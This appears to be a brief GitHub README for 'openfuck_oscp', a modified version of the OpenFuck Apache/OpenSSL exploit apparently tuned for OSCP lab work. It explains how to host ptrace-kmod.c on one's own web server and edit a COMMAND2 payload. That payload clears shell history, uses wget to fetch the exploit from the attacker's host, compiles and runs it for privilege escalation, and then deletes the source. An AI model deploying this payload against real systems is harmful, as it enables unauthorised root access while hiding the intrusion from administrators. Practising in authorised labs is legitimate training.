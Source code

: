 # openfuck_oscp

## modified the code on line 671


## download ptrace-kmod.c from https://packetstormsecurity.com/files/download/30973/ptrace-kmod.c 


## host  ptrace-kmod.c in apache server and replace the url with apache  

## added the lines export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin to overcome ld error

## enter url of the file in the command2


## change the url only to execute the code
```
#define COMMAND2 "unset HISTFILE; cd /tmp;export PATH=$PATH:/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin; wget http://enter ur ip here/ptrace-kmod.c; gcc -o exploit ptrace-kmod.c; rm ptrace-kmod.c; ./exploit; \n"
```
# for more refer:https://medium.com/@snowshoe/how-to-compile-openfuckv2-c-69e457b4a1d1


